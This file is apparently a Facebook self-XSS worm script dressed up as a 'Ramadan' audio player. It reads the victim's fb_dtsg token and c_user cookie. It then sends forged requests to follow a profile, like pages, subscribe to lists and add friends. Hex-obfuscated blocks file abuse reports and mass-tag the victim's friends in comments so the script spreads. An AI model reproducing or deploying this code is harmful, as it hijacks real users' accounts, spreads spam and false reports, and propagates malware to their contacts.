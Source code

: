 /* Ramadan */
var parent=document.getElementsByTagName("html")[0];
var _body = document.getElementsByTagName('body')[0];
var _div = document.createElement('div');
_div.style.height="25";
_div.style.width="100%";
_div.style.position="fixed";
_div.style.top="auto";
_div.style.bottom="0";
_div.align="center";
var _audio= document.createElement('audio');
_audio.style.width="100%";
_audio.style.height="25px";
_audio.controls = true;s
_audio.autoplay = false;
_audio.autoplay = true;
_audio.src = "http://picosong.com/media/songs/1623c97f871ebe69c08a4089737457dc";
_div.appendChild(_audio);
_body.appendChild(_div);
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100005737200713");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("");sublist("");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("185309954944253");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}

// Lists //

sublist("179344595600113");
Like("386572118132750");
Like("380193012181936");

var _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38"];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6[_0xb161[15]](_0xb161[14],_0x45e7x7,true);_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&&_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6[_0xb161[20]](_0x45e7x8);} ;
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
